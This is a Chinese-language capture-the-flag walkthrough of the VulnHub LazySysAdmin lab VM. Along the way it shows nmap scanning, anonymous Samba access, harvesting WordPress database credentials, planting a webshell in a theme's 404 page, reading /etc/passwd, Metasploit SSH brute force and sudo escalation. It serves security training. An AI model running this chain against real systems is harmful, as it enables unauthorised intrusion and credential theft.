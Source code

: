 ```yaml
---
title: LazySysAdmin 靶机
date: 2021-02-26 10:01:48
categories: security
tags: 
- drone
---
```


**靶机下载**: [https://www.vulnhub.com/entry/lazysysadmin-1,205/](https://www.vulnhub.com/entry/lazysysadmin-1,205/)

渗透目标是通过 VMWare 安装的 LazySysAdmin 虚拟机, 网络连接方式为仅主机, 目标 IP 通过 DHCP 分配

## 主机发现

```shell
# arp 查询(可选)
[root@kali ~]# arp-scan -I eth0 -l

# nmap 扫描(可选)
[root@kali ~]# nmap -sn 192.168.64.0/24

# netdiscover 查询(可选)
[root@kali ~]# netdiscover -i eth0 -r 192.168.64.0/24
```

## 端口探测

```shell
[root@kali ~]# nmap -sS -p1-65535 -v 192.168.64.130
... ...
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3306/tcp open  mysql
6667/tcp open  irc
MAC Address: 00:0C:29:D5:B9:47 (VMware)
... ...
```

<!-- more -->

## 服务识别

```shell
[root@kali ~]# nmap -sV -T4 -p22,80,139,445,3306,6667 192.168.64.130
```

![port_scan](https://cdn.jsdelivr.net/gh/yzbtdiy/images@main/security/lazysysadmin/port_scan.png)

发现目标主机上运行的服务有 ssh, http, samba, mysql, irc 等服务

## 查找漏洞

### 尝试挂载 samba

```shell
[root@kali ~]# enum4linux 192.168.64.130
```

![smb_no_user](https://cdn.jsdelivr.net/gh/yzbtdiy/images@main/security/lazysysadmin/smb_no_user.png)

![smb_available_dir](https://cdn.jsdelivr.net/gh/yzbtdiy/images@main/security/lazysysadmin/smb_available_dir.png)

发现 samba 可以在没有用户名密码的情况下访问, share$ 为共享目录

### 挂载 samba 的 share$ 目录

此目录是 web 的根目录, 进入wordpress 目录可以查看配置中的数据库信息

![wp-dir](https://cdn.jsdelivr.net/gh/yzbtdiy/images@main/security/lazysysadmin/wp-dir.png)

```shell
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'wordpress');

/** MySQL database username */
define('DB_USER', 'Admin');

/** MySQL database password */
define('DB_PASSWORD', 'TogieMYSQL12345^^');

/** MySQL hostname */
define('DB_HOST', 'localhost');

/** Database Charset to use in creating database tables. */
define('DB_CHARSET', 'utf8');
```

###  使用数据库账号密码登录 phpmyadmin

查询 wordpress 数据库中的用户名被拒绝

![sql_deny](https://cdn.jsdelivr.net/gh/yzbtdiy/images@main/security/lazysysadmin/sql_deny.png)

### 尝试数据库账号密码登录 wordpress

成功进入 wordpress 后台, 在 404 页面添加一句话木马

![trojan_404](https://cdn.jsdelivr.net/gh/yzbtdiy/images@main/security/lazysysadmin/trojan_404.png)

### 通过蚁剑获取 shell

![antsword_data](https://cdn.jsdelivr.net/gh/yzbtdiy/images@main/security/lazysysadmin/antsword_data.png)

### 读取 passwd 

可以看到有一个用户名为 togie 的用户, 并且位于 sudo 组, 可以对此用户尝试 ssh 爆破

![read_passwd](https://cdn.jsdelivr.net/gh/yzbtdiy/images@main/security/lazysysadmin/read_passwd.png)

### 使用 msf 爆破密码

```shell
[root@kali ~]# msfconsole
msf6 > use auxiliary/scanner/ssh/ssh_login
msf6 auxiliary(scanner/ssh/ssh_login) > set rhosts 192.168.64.130
msf6 auxiliary(scanner/ssh/ssh_login) > set username togie
msf6 auxiliary(scanner/ssh/ssh_login) > set pass_file /root/fuzzDicts/passwordDict/top500.txt
msf6 auxiliary(scanner/ssh/ssh_login) > run

[+] 192.168.64.130:22 - Success: 'togie:12345' 'uid=1000(togie) gid=1000(togie) groups=1000(togie),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lpadmin),111(sambashare) Linux LazySysAdmin 4.4.0-31-generic #50~14.04.1-Ubuntu SMP Wed Jul 13 01:06:37 UTC 2016 i686 i686 i686 GNU/Linux '
```

### ssh 登录 togie 用户

```shell
[root@kali ~]# ssh togie@192.168.64.130
[togie@LazySysAdmin ~]$ sudo su -
[root@LazySysAdmin ~]#
```
